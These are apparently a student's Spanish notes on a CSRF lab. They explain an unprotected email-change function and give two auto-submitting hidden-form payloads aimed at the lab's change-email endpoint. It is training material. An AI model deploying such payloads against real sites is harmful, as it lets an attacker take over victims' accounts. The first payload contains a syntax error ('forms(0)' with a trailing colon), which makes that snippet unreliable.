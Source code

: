 En esta clase abordamos un caso básico de vulnerabilidad CSRF, en el que una funcionalidad sensible —el cambio de correo electrónico— carece de cualquier tipo de protección. Esto nos permite forzar acciones en la cuenta de un usuario autenticado simplemente haciendo que cargue una página con un formulario oculto y autoenviado.

La técnica consiste en construir una petición POST con los mismos parámetros que la funcionalidad legítima, y luego alojarla en el servidor de explotación proporcionado. Al incluir un pequeño script que autoenvía el formulario al cargar la página, conseguimos que la víctima realice la acción sin saberlo, usando su propia sesión activa.

Este laboratorio representa el escenario más sencillo de explotación CSRF, y sienta las bases para los siguientes ejercicios donde se introducirán mecanismos de defensa como tokens, verificación de cabeceras o validaciones del lado servidor.

Solucion
bueno para emepzar lo que seria lo ideal seria copiar el codigo fuente o el formulario en esta ocacion de la pagina que queremos vulnerar
en este caso le vamos a dar click derecho y editar como html
![[Pasted image 20250722165509.png]]
para ello tenemos que modificar el codigo eliminando algunas cosas y checando cuales son los formularios en este caso solo tenemos uno y lo podemos ver de esta manera
![[Pasted image 20250722170136.png]]
document.forms[0]
y para mandarlo seria asi document.forms[0].submit()

"
<form class="login-form" name="change-email-form" action="https://0a4500280331c6b38165c03600fc0046.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacketd@hacketd.com">
</form>

<script>
    document.forms(0).submit():
</script>
"
Este podria ser otro

"
<form method="POST" action="https://0a4500280331c6b38165c03600fc0046.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hola@hola.com">
</form>
<script>
        document.forms[0].submit();
</script>
"
